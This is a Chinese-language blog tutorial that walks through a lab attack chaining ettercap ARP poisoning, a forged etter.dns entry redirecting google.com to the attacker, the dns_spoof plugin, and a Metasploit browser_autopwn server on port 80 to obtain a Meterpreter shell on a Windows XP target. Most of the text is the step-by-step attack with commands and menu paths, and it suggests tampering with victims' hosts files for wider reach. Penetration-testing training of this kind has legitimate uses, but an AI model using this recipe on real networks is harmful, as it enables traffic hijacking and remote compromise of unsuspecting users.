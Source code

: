 ```yaml
---
layout: post
category: curleyg-code-hack
title: 与DNS欺骗的结合使用
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 与DNS欺骗的结合使用
lock: need
---
```


# 与DNS欺骗的结合使用

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

在《[客户端渗透之——浏览器渗透](https://blog.csdn.net/l1028386804/article/details/86632106)》和《[客户端渗透之——对网站的客户进行渗透](https://blog.csdn.net/l1028386804/article/details/86632147)》中，我们看到了一个传统的browser autopwn攻击以及改进后针对网站用户的攻击。其中，我们受到了一个约束，就是必须要通过某种方式将陷阱链接发送给受害者。在这篇文章中，我们不再向受害者发送任何链接，而是等待他们去浏览自己喜欢的网站。

这种攻击只能在局域网环境。因为若想采用这种方式，首先需要执行ARP欺骗。ARP工作在协议层的第二层，只有在同一个广播域下工作。但如果可以通过某种方式来修改远程受害者主机的hosts文件，我们就可以不用考虑这个限制，这通常被称为一个域欺骗攻击。

## 使用DNS劫持欺骗受害者

首先对受害者发起一个ARP毒化攻击，并执行DNS查询欺骗。因此，如果受害者试图打开一个常用的网站主页，例如http://google.com，结果却是打开了我们设置的browser autopwn服务的陷阱主页，进而使得他的系统遭到了来自陷阱网站的攻击。

## 查找etter.dns文件

我们需要创建一个DNS毒化列表，通过输入如下命令来找到伪造DNS条目保存的文件。

```bash
locate etter.dns

root@binghe:~# locate etter.dns
/etc/ettercap/etter.dns
```

## 创造伪造DNS列表

这里，我们使用的ARP毒化工具为ettercap,首先，找到 etter.dns 文件并创造一个伪造的DNS列表，为了实现这一点，需要修改etter.dns文件中的列表。

```bash
vim /etc/ettercap/etter.dns
```



![img](https://img-blog.csdnimg.cn/20190124203421488.png)

这里，我们加入了一行google.com A 192.168.175.128，这个假冒的DNS条目指向设置了browser autopwn服务的主机IP。因此，受害者并没有进入自己原计划的网站，而是进入了运行着browser autopwn服务的那个缺陷网站。

这样，当受害者发出一个关于域名http://google.com的DNS请求时，这个列表就会把攻击者计算机的IP地址作为响应发送给他。

## 使用ettercap毒化内网

## 启动ettercap

在Kali命令行运行命令：

```bash
ettercap -G
```

启动ettercap图形界面。

![img](https://img-blog.csdnimg.cn/20190124203512151.png)

## 选择网卡接口

依次选择ettercap的Sniff->Unified sniffing...打开选择网卡的弹出框，选择eth0后确定。

![img](https://img-blog.csdnimg.cn/20190124203533985.png)

![img](https://img-blog.csdnimg.cn/2019012420354328.png)

## 扫描目标网络范围

对目标网络范围内的主机IP进行扫描，验证哪些主机处于在线状态，

依次点击hosts->Scan for hosts

![img](https://img-blog.csdnimg.cn/20190124203606592.png)

## 查看在线主机

依次点击Hosts->Hosts list

![img](https://img-blog.csdnimg.cn/20190124203626802.png)

![img](https://img-blog.csdnimg.cn/20190124203635935.png)

可以看到我们靶机IP 192.168.175.130也在结果列表中。

## 配置网关和靶机IP

这里，我们将网关的地址添加到目标2，将靶机IP添加到目标1，以后就将网关看作目标2，将靶机看作目标1。因为我们需要截获靶机发往网关的通信。

![img](https://img-blog.csdnimg.cn/20190124203701243.png)

![img](https://img-blog.csdnimg.cn/20190124203709825.png)

添加后的结果：

![img](https://img-blog.csdnimg.cn/20190124203725796.png)

## 设置ARP Poisoning

依次点击Mitm->ARP poisoning

![img](https://img-blog.csdnimg.cn/2019012420375615.png)

选中Sniff remote connections后确定。

![img](https://img-blog.csdnimg.cn/20190124203820767.png)

## 执行Start Sniffing

依次点击 Start->Start sniffing

![img](https://img-blog.csdnimg.cn/2019012420384134.png)

这时，会输出一个“Unified sniffing already started...”的提示信息

![img](https://img-blog.csdnimg.cn/20190124203859182.png)

## 激活DNS欺骗插件程序

依次点击Plugins->Manage the plugins

![img](https://img-blog.csdnimg.cn/20190124203914611.png)

双击dns_spoof以激活DNS欺骗

![img](https://img-blog.csdnimg.cn/20190124203930789.png)

双击后的效果为：

![img](https://img-blog.csdnimg.cn/20190124203945594.png)

这个插件被激活之后将会发送伪造的DNS数据，这些数据是我们之前在etter.dns中修改过的。因此，无论何时，只要受害者发送某个特定网站域名的DNS请求，攻击就会伪造一个响应，使用etter.dns文件中假冒的DNS条目来代替真实的条目。

## 启动陷阱网站

接下来在80端口启动陷阱网站

```bash
msfconsole
use auxiliary/server/browser_autopwn
set LHOST 192.168.175.128
set SRVPORT 80
set URIPATH /
exploit
```

![img](https://img-blog.csdnimg.cn/20190124204053680.png)

## 在靶机上访问链接

在靶机上打开链接http://google.com

![img](https://img-blog.csdnimg.cn/20190124204120444.png)

这样，我们就可以拿到靶机的Meterpreter。

## 查看靶机的ARP信息

![img](https://img-blog.csdnimg.cn/20190124204141828.png)

可以看到攻击机和网关的Mac地址一样，这是我们对内网进行了ARP毒化的结果。

**最后，这种方式只能用在局域网，如果想在一个广域网中实现这种攻击，就需要修改受害者的主机文件。这样当受害者试图访问一条执行的URL时，篡改过的主机文件条目将这个URL定向到那个恶意autopwn服务器上。**



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
